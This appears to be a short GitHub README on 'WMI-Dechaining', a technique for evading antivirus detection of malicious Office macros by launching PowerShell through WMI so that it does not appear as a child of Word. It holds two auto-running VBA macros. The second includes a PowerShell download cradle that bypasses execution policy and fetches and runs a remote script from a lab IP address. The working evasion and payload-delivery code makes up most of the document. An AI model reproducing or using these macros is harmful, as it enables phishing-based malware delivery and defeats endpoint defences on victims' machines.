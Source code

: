 # WMI-Dechaining
WMI- old native part of the Windows operating system that is still poorly documented and unknown. Wmi can invoke alot of actions.  
We can resolve AV detection since the detection come from child process being detected from Microsoft Office. We can avoid by creating a powershell process using WMI. 


```
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

Powershell prompt will open
![image](https://github.com/user-attachments/assets/8c7ebeb6-8ba3-435b-8259-8a06f16d0e69)

Powershell running as child process. However powershell is running as 64 bit which can interfere with exploits. We must update this script
![image](https://github.com/user-attachments/assets/f945296c-b860-48d0-b5a8-32cf4c293c2a)

Added download cradle
```
Sub MyMacro
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

![image](https://github.com/user-attachments/assets/347cd885-b711-484c-a114-05365e98a769)
